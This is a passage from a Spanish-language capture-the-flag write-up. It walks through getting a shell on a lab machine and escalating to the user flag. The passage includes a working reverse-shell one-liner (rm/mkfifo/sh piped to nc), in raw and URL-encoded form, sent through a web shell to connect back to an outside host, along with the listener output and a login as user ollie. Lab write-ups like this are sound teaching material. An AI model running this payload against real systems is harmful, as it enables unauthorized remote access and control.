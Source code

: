 ~~~go
[Entrada]
curl http://10.10.18.17/shell.php\?cmd\=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.1.216 1337 >/tmp/f

[Salida]
curl http://10.10.18.17/shell.php\?cmd\=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.9.1.216%201337%20%3E%2Ftmp%2Ff
~~~


- Nos ponenos en escucha por el puerto 1337 desde la terminal 1 y desde otra terminal la 2 ejecutamos la reverse shell:
  
~~~go
[Terminal 1]
└─# nc -nlvp 1337                            
listening on [any] 1337 ...
connect to [10.9.1.216] from (UNKNOWN) [10.10.18.17] 49554
sh: 0: can't access tty; job control turned off
$ ls
INSTALL.txt
README.md
UPDATE
api
app
config.docker.php
config.php
~~~

~~~go
[Terminal 2]
╰─ curl http://10.10.18.17/shell.php\?cmd\=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.9.1.216%201337%20%3E%2Ftmp%2Ff

~~~

### 3.2 Bandera de usuario

- En este punto hemos logrado acceso como usuario www-data, pero nos podemos autenticar como ollie con la contraseña obtenida en el paso anterior y con este usario si podemos leer la bandera:

~~~go
www-data@hackerdog:/home/ollie$ cat user.txt
cat user.txt
cat: user.txt: Permission denied

ollie@hackerdog:/$ id
id
uid=1000(ollie) gid=1000(ollie) groups=1000(ollie),4(adm),24(cdrom),30(dip),46(plugdev)
ollie@hackerdog:/$ 
~~~

---

## 4 Bandera root
